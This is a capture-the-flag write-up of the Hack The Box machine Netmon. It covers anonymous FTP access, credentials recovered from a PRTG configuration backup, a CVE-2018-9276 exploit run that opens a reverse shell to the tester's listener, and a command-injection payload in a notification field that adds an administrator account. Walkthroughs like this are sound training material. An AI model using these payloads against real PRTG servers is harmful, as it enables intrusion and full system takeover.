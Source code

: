 # Netmon - Windows, easy (10.10.10.152)

### Enumeration
```
ORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### User flag
Just connect using ftp to the server and enter in \Users\Public to get file `user.txt` (just type `get user.txt` to download a copy).

### Privesc
For this part I have checked the website and here I could notice that it is hosting `PRTG Network Monitor 18.1.37.13946` and we are presented with a loging form.
Looking for exploits online there's not much we can do for now since they all require credentials.

My guess is to check the common files of PRTG through ftp.
[Here](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) we can see some folders and files that could be useful for us.
In particular, `%ALLUSERSPROFILE%\Application data\Paessler\PRTG Network Monitor` is the data folder where we can check for configuration files.
In fact, a file that could be useful is `PRTG Configuration.old` which is the backup of previous version of monitoring configuration.

Login again as anynimous user using ftp and then in `\Users` type `ls -al` otherwise some folders and files are not shown.
```
ftp> ls -al
229 Entering Extended Passive Mode (|||50522|)
150 Opening ASCII mode data connection.
02-25-19  11:44PM       <DIR>          Administrator
07-16-16  09:28AM       <DIR>          All Users
02-03-19  08:05AM       <DIR>          Default
07-16-16  09:28AM       <DIR>          Default User
07-16-16  09:16AM                  174 desktop.ini
09-10-22  04:07PM       <DIR>          Public
```

Now enter in `\All Users\Paessler\PRTG Network Monitor` and get file `PRTG Configuration.old`. Unfortunately here there's nothing, but in `PRTG Configuration.old.bak` we can notice the following credentials:
```
<!-- User: prtgadmin -->
PrTg@dmin2018
```

However the credentials did not work, but thinking at the situation, the file from which we obtained the credentials is an old backup, ending in 2018, but the machine
was released on HTB on `02 Mar 2019`, so, trying with 2019 instead of 2018 allows us to access correctly to the PRTG Dashboard as System Administrator!

At this point we can utilize the exploits found previously since we have a valid username and password.
In particular, I found [CVE-2018-9276](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9276) that allows us to exploit an OS command injection vulnerability by sending malformed parameters in sensor or notification management scenarios.
I used the following [script](https://github.com/A1vinSmith/CVE-2018-9276):
```
kali@kali:~/HackTheBox/retired/Windows/easy/Netmon/CVE-2018-9276$ ./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.13 --lport 4444 --user prtgadmin --password PrTg@dmin2019

nc -nlvp 4444
C:\Windows\system32>whoami
whoami
nt authority\system
```

### Manual privesc
[This](https://www.codewatch.org/blog/?p=453) blog post about command injection in PRTG explain how to perform command injection in the parameter field of the notifications configuration with some of the default Demo scripts.

After login, enter in `Setup > Account Settings > Notifications`, click the blue cross on the right and click on `Add new notification`.
Following the blog post, scroll down to `Execute Program` and click on it.
For the `Program File` use `Demo exe notification - outfile.ps1` and then in field `Parameter` add `test.txt;net user hollow p3nT3st! /add;net localgroup administrators hollow /add` where the second part is not present on the blog post, but I needed it in order to add my new user to adminsitrators group.

At this point save the notification, click the button on the right (pen in a square) and click the bell icon to send test notification.
We can check if we have access by using:
```
kali@kali:~$ smbmap -H 10.10.10.152 -u pentest -p "p3nT3st!"
[+] IP: 10.10.10.152:445        Name: 10.10.10.152                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```
and we have it!

To get a shell we can use `psexec.py`:
```
kali@kali:~$ sudo psexec.py 'hollow:p3nT3st!@10.10.10.152'
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file tLYZnnku.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service VhkJ on 10.10.10.152.....
[*] Starting service VhkJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Done ✔️
